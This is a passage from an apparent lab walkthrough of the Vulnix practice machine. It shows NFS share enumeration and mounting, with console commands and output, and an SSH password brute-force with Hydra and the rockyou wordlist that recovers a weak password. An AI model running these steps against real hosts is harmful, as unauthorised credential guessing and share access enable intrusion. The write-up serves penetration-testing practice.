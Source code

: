 Good, both users are valid.

### 1.2 NFS enumeration

Since we have NFS service running on port 2069, we may be able to mount a
share and find some juicy data!
You'll need to install `nfs-common` package if it doesn't exist already.

```console
root@kali:~# showmount -h
Usage: showmount [-adehv]
[--all] [--directories] [--exports]
[--no-headers] [--help] [--version] [host]
root@kali:~# showmount 192.168.1.72
Hosts on 192.168.1.72:
root@kali:~# showmount -e 192.168.1.72
Export list for 192.168.1.72:
/home/vulnix *
root@kali:~# mkdir /tmp/nfs
root@kali:~# mount -t nfs 192.168.1.72:/home/vulnix /tmp/nfs -nolock
root@kali:~# cd /tmp
root@kali:/tmp# ls -al
total 52
drwxrwxrwt 12 root       root       4096 Oct 30 23:22 .
drwxr-xr-x 22 root       root       4096 Sep 29 03:47 ..
...
drwxr-x---  2 nobody     4294967294 4096 Sep  2  2012 nfs
...
root@kali:/tmp# cd /tmp/nfs
bash: cd: /tmp/nfs: Permission denied
```

The mounted share cannot be accessed, probably because the [root_squash flag is set](https://access.redhat.com/documentation/en-US/Red_Hat_Enterprise_Linux/6/html/Security_Guide/sect-Security_Guide-Securing_NFS-Do_Not_Use_the_no_root_squash_Option.html). We can safely assume if we have a user named vulnix with the same UID we'll be able to access it. But we'll get back to this later.

## 2\. Gaining Access

After wasting a decent amount of time on finding exploits for running services, I wasn't able to find any, don't do that, there are services we didn't explore more properly in the first place.

### 2.1 Bruteforcing SSH

Running Hydra against either user or vulnix is an option with rockyou wordlist, although this will take a very long time (unless you try user `user` first)!

```console
root@kali:~# hydra -l user -P rockyou.txt 192.168.1.72 ssh -t 4
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-10-30 23:43:08
[DATA] max 4 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~56032 tries per task
[DATA] attacking service ssh on port 22
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 4 active
[STATUS] 61.33 tries/min, 184 tries in 00:03h, 14344215 to do in 3897:54h, 4 active
[STATUS] 60.71 tries/min, 425 tries in 00:07h, 14343974 to do in 3937:34h, 4 active
[22][ssh] host: 192.168.1.72   login: user   password: letmein
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2016-10-30 23:51:39
```
